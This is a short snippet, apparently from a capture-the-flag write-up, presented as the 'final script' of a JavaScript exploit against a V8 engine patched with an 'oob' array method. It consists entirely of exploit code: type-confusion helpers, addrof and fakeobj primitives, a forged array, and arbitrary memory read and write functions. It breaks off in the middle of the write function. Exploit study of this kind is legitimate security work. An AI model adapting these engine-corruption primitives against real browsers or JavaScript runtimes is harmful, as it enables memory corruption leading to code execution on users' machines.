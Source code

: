 最终脚本：

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);


function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

var temp_obj = {"A":1};
var obj_array = [temp_obj];
var flt_array = [1.1];
var obj_map = obj_array.oob();
var flt_map = flt_array.oob();

function addrof(in_obj) {
    obj_array[0] = in_obj;
    obj_array.oob(flt_map);
    let addr = obj_array[0];
    obj_array.oob(obj_map);
    return ftoi(addr);
}

function fakeobj(addr) {
    flt_array[0] = itof(addr);
    flt_array.oob(obj_map);
    let fake = flt_array[0];
    flt_array.oob(flt_map);
    return fake;
}

  
var arb_rw_arr1 = [flt_map, 1.2, itof(addrof(temp_obj)), 1.4];
var fake_array = fakeobj(addrof(arb_rw_arr1) - 0x20n);

function test() {
    console.log("fflt_array" + addrof(arb_rw_arr1).toString(16));
    console.log("temp_obj " + addrof(temp_obj).toString(16));
    console.log("flt_map " + addrof(flt_map).toString(16));

    var fake = fakeobj(addrof(arb_rw_arr1) - 0x20n);
    console.log("fake " + addrof(fake).toString(16));
    console.log("fake[0]" + ftoi(fake[0]));
}

function arb_read(addr) {
    arb_rw_arr1[2] = itof(addr - 0x10n);
    return ftoi(fake_array[0]);
}


function initial_arb_write(addr, val) {
    arb_rw_arr1[2] = itof(addr - 0x10n);
    fake_array[0] = itof(val);
```